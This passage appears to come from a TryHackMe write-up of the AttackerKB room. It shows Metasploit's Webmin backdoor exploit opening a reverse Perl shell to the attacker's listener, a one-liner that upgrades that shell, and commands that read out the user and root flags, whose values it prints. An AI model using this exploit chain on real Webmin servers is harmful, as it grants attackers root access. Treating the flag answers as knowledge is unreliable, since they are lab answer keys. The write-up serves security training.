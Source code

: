 `SSL false no Negotiate SSL/TLS for outgoing connections`

4. Run the exploit. What is the user flag?

```
msf5 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.8.106.222:4444
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.8.106.222:4444 -> 10.10.129.211:37060) at 2020-09-26 15:26:45 +0200
```

```
python -c "import pty; pty.spawn('/bin/bash')"
```

```
root@source:/usr/share/webmin/# find / -name user.txt
find / -name user.txt
/home/dark/user.txt
root@source:/usr/share/webmin/# cat /home/dark/user.txt
cat /home/dark/user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
root@source:/usr/share/webmin/# cat /root/root.txt
cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}
```

`THM{SUPPLY_CHAIN_COMPROMISE}`

5. How about the root flag?

`THM{UPDATE_YOUR_INSTALL}`

6. Once you've completed gaining the root flag, move onto the fifth and final task.

## Going Further

Want to get even more out of AttackerKB? Check out the AKB Explorer by [Horshark](https://tryhackme.com/p/Horshark)! Written in python, AKB Explorer provides similar functionality to Searchsploit, expanded to encompass the features of AKB. Using this tool, you can search by name, CVE, and username for posts! Check it out here: [Link](https://github.com/horshark/akb-explorer)

1. Read the above and keep learning!

`No answer needed`
